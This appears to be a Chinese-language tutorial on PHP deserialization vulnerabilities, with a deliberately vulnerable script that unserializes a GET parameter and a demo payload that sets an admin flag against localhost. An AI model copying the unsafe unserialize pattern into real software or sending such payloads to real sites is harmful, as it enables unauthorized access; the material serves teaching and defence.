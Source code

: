 # PHP反序列化漏洞详解

PHP反序列化漏洞是指在PHP应用程序中，反序列化不受信任的数据时，攻击者通过构造恶意数据，导致系统执行非预期的操作。这个漏洞利用PHP的`unserialize`函数，由于`unserialize`函数在处理对象时，会调用对象的魔术方法（如`__wakeup`、`__destruct`），攻击者可以利用这些方法执行恶意代码。

### 反序列化漏洞产生的原因

1. **直接反序列化用户输入**：应用程序直接对用户输入的数据进行反序列化。
2. **缺乏数据验证和过滤**：反序列化前没有对数据进行充分的验证和过滤。
3. **使用危险的魔术方法**：类中包含可能被利用的魔术方法（如`__wakeup`、`__destruct`）。

### 示例：PHP反序列化漏洞演示

#### 演示环境准备

创建一个包含反序列化漏洞的PHP文件`vulnerable.php`：

```php
<?php
class User {
    public $name;
    public $isAdmin;

    public function __construct($name, $isAdmin) {
        $this->name = $name;
        $this->isAdmin = $isAdmin;
    }

    public function __wakeup() {
        if ($this->isAdmin) {
            echo "Admin access granted for user: {$this->name}\n";
        }
    }
}

// 模拟不安全的反序列化
if (isset($_GET['data'])) {
    $data = $_GET['data'];
    $object = unserialize($data);
    var_dump($object);
}
?>
```

#### 触发漏洞

构造一个恶意序列化字符串，并通过GET请求传递给`vulnerable.php`。

```php
<?php
// 构造恶意数据
class User {
    public $name;
    public $isAdmin;

    public function __construct($name, $isAdmin) {
        $this->name = $name;
        $this->isAdmin = $isAdmin;
    }
}

$maliciousUser = new User("Attacker", true);
$maliciousData = serialize($maliciousUser);
echo $maliciousData;
?>
```

将上述代码保存为`malicious.php`并运行，得到类似于以下的输出：

```
O:4:"User":2:{s:4:"name";s:8:"Attacker";s:7:"isAdmin";b:1;}
```

通过浏览器访问`vulnerable.php`，构造URL如下：

```
http://localhost/vulnerable.php?data=O:4:"User":2:{s:4:"name";s:8:"Attacker";s:7:"isAdmin";b:1;}
```

访问后，页面将输出：

```
Admin access granted for user: Attacker
object(User)#1 (2) {
  ["name"]=>
  string(8) "Attacker"
  ["isAdmin"]=>
  bool(true)
}
```
